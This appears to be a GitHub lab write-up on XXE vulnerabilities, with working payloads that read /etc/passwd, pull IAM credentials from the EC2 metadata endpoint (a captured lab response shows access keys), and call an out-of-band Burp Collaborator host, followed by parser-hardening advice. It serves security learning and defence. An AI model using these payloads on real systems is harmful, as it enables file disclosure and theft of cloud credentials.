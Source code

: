 ##  **XXE (XML External Entity) vulnerability**
XXE (XML External Entity) vulnerability is a security flaw that occurs when an application processes XML input containing references to external entities. If not properly handled, this can lead to **data exposure, file retrieval, SSRF (Server-Side Request Forgery), and even remote code execution** in some cases.  

---

##  **How XXE Works**
1. **XML Processing**: The application parses user-supplied XML.
2. **External Entity Declaration**: If the XML parser is configured to allow external entities (`DOCTYPE` and `SYSTEM`), attackers can inject references to local or remote files.
3. **Data Exfiltration**: The attacker retrieves sensitive files (e.g., `/etc/passwd`) or triggers SSRF by forcing the server to make requests to internal services.

---

##  **Example of a Vulnerable XML**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  
<root>  
    <data>&xxe;</data>  
</root>
```
 If an application processes this XML, it will replace `&xxe;` with the contents of `/etc/passwd`, exposing sensitive system information.

## **case1: Exploiting XXE using external entities to retrieve files**
```Payload

<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY procuctid SYSTEM "file:///etc/passwd"> ]>
    <stockCheck>
        <productId>&procuctid;</productId>
        <storeId>1</storeId>
    </stockCheck>
```    
## **case2: Exploiting XXE to perform SSRF attacks**
```secnerio: The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
  motive: obtains the server's IAM secret access key from the EC2 metadata endpoint.

payloads

<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY procuctid SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
    <stockCheck>
        <productId>&procuctid;</productId>
        <storeId>1</storeId>
</stockCheck>
```
```Response:
            HTTP/2 400 Bad Request

            Content-Type: application/json; charset=utf-8

            X-Frame-Options: SAMEORIGIN

            Content-Length: 552

            "Invalid product ID: {

            "Code" : "Success",

            "LastUpdated" : "2025-03-11T08:19:31.312893341Z",

            "Type" : "AWS-HMAC",

            "AccessKeyId" : "w4CprEoDqP8HcOoLxq1l",

            "SecretAccessKey" : "iGY2bXKWVPmXrG1tllcM4B4pZCq5XivMtFxpbnhm",

            "Token":
"uqqU5kZR1JlvTBF85Eyn2aJDv6zEVFdntShz9zMpqtazw5AQrIkrNisng0DLy0GomI0uqbATyQwBUNw6Ey4YubP4CJnqQAoqO1Qd0lMkkVQPTgtREDUuQiNVAf0qzMUKRsXS7G9pdI6PBfm1g8V0wCNYSKW2YdkWSZaYsOqc4CmXWT4cE0znDrONJ2cN6NpPJCEAFmwO55NDqNnpuMRFovx8DUVs4QdCFDNdW4Vw0JVAQdtU5jsirgxMS4hK1Qkd",

              "Expiration" : "2031-03-10T08:19:31.312893341Z"

            }"
```
## case 3: Blind XXE with out-of-band interaction
``` secnerio: use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
    payloads:
    <?xml version="1.0" encoding="UTF-8"?>

        <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://pe7r5ma8pmiqhg5yu8d1hkk9b0hr5vtk.oastify.com/"> ]>

        <stockCheck>
            <productId>&xxe;</productId>
            <storeId>1</storeId>
        </stockCheck>
```
---

## 🛠 **Exploiting XXE**
- **File Disclosure**: Load system files using `file:///path/to/file`.
- **SSRF (Server-Side Request Forgery)**: Force the server to request internal/external resources (`http://internal-service/`).
- **Denial of Service (Billion Laughs Attack)**: Overload memory by nesting entities.
- **RCE (in rare cases)**: If the application allows interaction with system commands via an entity, remote code execution might be possible.

---

##  **How to Prevent XXE**
 **Disable DTD Processing** (External Entities):  
- In Java (DOM Parser):
  ```java
  DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
  dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
  ```
- In Python (`lxml` parser):
  ```python
  from lxml import etree
  parser = etree.XMLParser(resolve_entities=False)
  ```

**Use Safe Parsers**: Choose modern, secure XML libraries that disable external entity resolution by default.  
**Input Validation**: Avoid accepting XML input unless necessary.  
**Use JSON Instead of XML**: JSON does not support external entities, reducing the risk of XXE.

## **Refrence** 
   
   https://rohitcoder.medium.com/comprehensive-guide-detecting-fixing-and-defending-against-xxe-attacks-in-python-and-java-e78691b4b918
   
   https://www.w3schools.com/xml/xml_dtd_intro.asp
   
---
